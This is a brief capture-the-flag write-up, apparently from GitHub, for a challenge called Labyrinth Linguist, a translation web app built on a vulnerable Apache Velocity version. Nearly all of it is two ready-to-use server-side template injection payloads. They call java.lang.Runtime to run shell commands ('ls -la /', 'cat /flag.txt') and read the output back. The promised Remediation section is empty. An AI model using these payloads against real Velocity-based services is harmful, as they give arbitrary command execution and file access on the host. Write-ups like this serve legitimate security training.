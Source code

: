 Labyrinth Linguist is a web Application that turns user input into another language. However, it runs on a version of Apache Velocity, which has a known SSTI vulnerability. 

## Solution
### Directory listing

```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($ex=$rt.getRuntime().exec('ls -la /'))$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()])#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))$str.valueOf($chr.toChars($out.read()))#end
```

### Reading the flag
```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($ex=$rt.getRuntime().exec('cat /flag.txt'))$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()])#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))$str.valueOf($chr.toChars($out.read()))#end
```
## Remediation
1. 

<img width="1218" height="979" alt="listing" src="https://github.com/user-attachments/assets/df1b144f-b1a0-4e78-8853-bb9101011d2e" />
<img width="1238" height="1007" alt="flag1" src="https://github.com/user-attachments/assets/40171701-1b0a-4d07-a16e-fb1a56bf266d" />
